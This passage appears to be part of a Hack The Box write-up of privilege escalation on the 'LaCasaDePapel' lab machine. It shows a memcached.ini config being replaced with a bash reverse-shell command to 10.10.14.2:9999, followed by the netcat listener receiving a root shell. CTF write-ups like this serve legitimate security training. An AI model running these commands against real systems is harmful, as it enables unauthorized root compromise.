 ## PRIVESEC

```bash
lacasadepapel [~]$ ls
linpeas.sh     memcached.ini  memcached.js   node_modules
lacasadepapel [~]$ cat memcached.ini
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```

I used `ps aux` command to check if this program is being executed.

```bash
10508 nobody    0:13 /usr/bin/node /home/professor/memcached.js
```

We cannot edit the file `memcached.js` but we can delete it and make a new file.

```bash
lacasadepapel [~]$ rm memcached.ini
rm: remove 'memcached.ini'? yes
lacasadepapel [~]$ vi memcached.ini

lacasadepapel [~]$ cat memcached.ini
[program:memcached]
command = bash -c 'bash -i >& /dev/tcp/10.10.14.2/9999 0
>&1'
```

A few seconds later We get a reverse shell as root.

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/lacasadepapel]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.131] 40423
whoami
root
python -c 'import pty; pty.spawn("/bin/bash")'

bash-4.4# ls
ls
root.txt
bash-4.4#
```

